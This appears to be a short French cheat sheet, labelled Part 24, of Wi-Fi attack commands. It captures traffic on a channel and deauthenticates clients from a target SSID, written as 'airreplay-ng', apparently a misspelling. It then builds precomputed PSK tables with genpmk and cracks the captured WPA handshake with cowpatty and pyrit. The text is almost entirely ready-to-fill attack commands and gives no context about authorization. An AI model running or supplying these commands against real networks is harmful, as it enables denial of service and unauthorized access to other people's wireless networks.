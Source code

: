 Part 24
===========

Capture traffic
\# airodump-ng --channel $CHANNEL mon0 --write $CAPTUREFILE

Deauth sur un ssid
\# airreplay-ng --deauth 0 -e $SSID mon0

Generation de PSK
\# genpmk -f dict -s $SSID -d $PRECOMPUTEDPSKS

Crack en fonction de precomputed PSK
\# cowpatty -d $PRECOMPUTEDPSKS -s $SSID -r $CAPTUREFILE
\# pyrit -r $CAPTUREFILE -i $PRECOMPUTEDPSKS attack\_cowpatty

